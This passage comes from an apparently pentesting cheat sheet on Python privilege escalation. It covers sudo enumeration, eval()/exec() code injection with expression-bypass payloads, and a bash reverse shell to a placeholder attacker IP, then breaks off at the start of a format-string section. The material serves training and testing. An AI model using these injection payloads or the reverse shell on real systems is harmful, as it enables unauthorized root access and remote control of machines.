 ### OS Commands in Eval() and Exec()

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If it use the `eval()` or `exec()` method and we controll its input, then the script is vulnerable to arbitrary code execution.

```bash
sudo -l
    (root): /usr/bin/python3 /opt/scripts/example.py
```

Check if we have control over the input of a vulnerable function

```python
#With eval
eval(text)
eval(f"5 + {num}")
print ("Result =", eval(comp))

#With exec
code = input('What command(s) in python did you learn today?')
exec(code)
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code.

```bash
$ sudo /usr/bin/python3 /opt/scripts/example.py

__import__('os').system('id')

#Bypass another expression in eval
),__import__('os').system('id')
'),__import__('os').system('id')
},__import__('os').system('id')
),__import__('os').system('id')#

#Example of a ReverseShell
__import__('os').system('bash -c "bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1"')
```
{% endtab %}
{% endtabs %}

### Format String Exploit

{% tabs %}
{% tab title="Enumerate" %}
The `str.format()` string method was introduced in Python 3 was later also added to Python 2.7. It allows multiple substitutions and value formatting. Vulnerability comes when our Python app uses `str.format()` in the **user-controlled string**. This vulnerability may lead attackers to get **access to sensitive information**.
